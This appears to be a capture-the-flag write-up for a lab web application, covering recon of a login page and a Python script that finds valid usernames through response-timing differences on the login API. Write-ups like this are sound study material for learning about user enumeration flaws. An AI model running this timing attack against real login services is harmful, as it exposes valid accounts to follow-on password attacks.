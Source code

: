 
### Web (:8080 `/`)
- On going to (http://10.10.95.113:8080/) we are presented with a home-screen with login option.
- Redirected to (http://10.10.95.113:8080/login).
- Created a new user with creds `test : 123`.
- Logged in with new creds but didn't find anything.
- Logged out and tried logging in to invalid username, unsuccessful.
- Tried logging in with wrong password, unsuccessful, but we could see a time difference between requests for invalid username and wrong password.
- This means that the application is first checking whether the username is valid or not and then checking the password.
- Created a python script to get a valid username.

## Exploitation

### User Access

#### Python Script (Valid username)
- We know that a wrong username is fast and wrong password takes time, so we will make a python script which we will return valid username only when the request takes some time.

```python
import time
import requests
import sys

def print_percent_done(index, total, bar_len=50, title='Please wait'):
    '''
    index is expected to be 0 based index.
    0 <= index < total
    '''
    percent_done = (index+1)/total*100
    percent_done = round(percent_done, 1)

    done = round(percent_done/(100/bar_len))
    togo = bar_len-done

    done_str = '█'*int(done)
    togo_str = '░'*int(togo)

    print(f'\t⏳{title}: [{done_str}{togo_str}] {index}/{total} done', end='\r')

    if round(percent_done) == 100:
        print('\t✅')

file = open("wordlist.txt","r")
data = file.readlines()
print("\n")
valid = []
for i in  range(len(data)):
    start_time = time.time()
    creds = {"username":data[i],"password":"456"}
    req = requests.post("http://10.10.95.113:8080/api/user/login",creds)
    end_time = time.time()
    total_time = (end_time-start_time)

    if total_time >=1 :
        valid.append(data[i])
    else:
        print_percent_done(i,len(data))
        time.sleep(.02)


```